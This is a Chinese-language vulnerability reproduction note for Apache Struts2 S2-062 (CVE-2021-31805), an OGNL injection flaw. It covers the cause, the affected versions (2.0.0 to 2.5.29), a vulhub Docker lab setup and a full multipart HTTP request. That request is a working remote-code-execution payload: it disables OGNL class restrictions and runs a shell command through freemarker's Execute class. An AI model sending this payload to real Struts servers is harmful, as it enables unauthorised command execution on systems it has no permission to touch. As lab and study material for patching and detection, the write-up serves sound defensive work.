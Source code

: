 # Struts2 S2-062 远程代码执行漏洞 CVE-2021-31805

## 漏洞描述

该漏洞由于对CVE-2020-17530的修复不完整造成的，CVE-2020-17530漏洞是由于Struts2 会对某些标签属性(比如id) 的属性值进行二次表达式解析，因此当这些标签属性中使用了 %{x} 且 其中x 的值用户可控时，用户再传入一个 %{payload} 即可造成OGNL表达式执行。在CVE-2021-31805漏洞中，仍然存在部分标签属性会造成攻击者恶意构造的OGNL表达式执行，导致远程代码执行。

## 漏洞影响

```
Struts 2.0.0 - Struts 2.5.29
```

## 环境搭建

```php
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-061
docker-compose up -d
```

## 漏洞复现

主页面

![img](images/202205131027608.png)

发送请求包

```php
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

![img](images/202205131027759.png)